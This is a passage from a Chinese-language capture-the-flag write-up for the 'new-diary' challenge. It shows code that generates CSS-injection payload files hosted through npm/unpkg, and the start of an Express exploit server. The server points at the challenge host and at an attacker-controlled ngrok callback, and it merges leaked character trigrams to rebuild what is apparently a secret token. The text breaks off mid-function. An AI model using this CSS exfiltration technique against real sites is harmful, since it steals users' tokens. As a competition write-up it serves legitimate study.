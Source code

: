 ``` js
payload3 = `${payload3}script:before{content:'a';display:block;background-image:${crossPayload3} }`

fs.writeFileSync('exp1.css', payload1, 'utf-8');
fs.writeFileSync('exp2.css', payload2, 'utf-8');
fs.writeFileSync('exp3.css', payload3, 'utf-8');
```

接著把跑完的檔案發佈到 npm，就有一個 unpkg 的網址了。

### Exploit

寫得滿亂的有點懶得整理，但基本上跑起來以後訪問 `/start` 就會開始自動跑整個流程。

這題因為運氣好之前就有看過那篇文章，所以開賽後半小時就大概知道怎麼解了，剩下兩小時都在寫 code 😆

``` js
import express from 'express'
import {fetch, CookieJar} from "node-fetch-cookies";

const app = express()
const port = 3000

const host = 'http://new-diary.ctf.0ops.sjtu.cn'
const selfHost = 'https://ip.ngrok-free.app'
const cssUrl = 'https://unpkg.com/your_pkg@1.0.0'

const getRandomStr = len => Array(len).fill().map(_ => Math.floor(Math.random()*16).toString(16)).join('')

let leaks = []
let cookieJar = new CookieJar();
let username = '';
let hasToken = false;

function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for(let i=0; i<arr.length; i++) {
      let isFound = false
      for(let j=0; j<arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2] 
        let prefix = arr[j][0] + arr[j][1]

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        console.log('ending:', arr[i])
        return mergeWords(arr.filter(item => item!==arr[i]), arr[i])
      }
    }

    console.log('Error, please try again')
    return
  }

  let found = []
  for(let i=0; i<arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]
```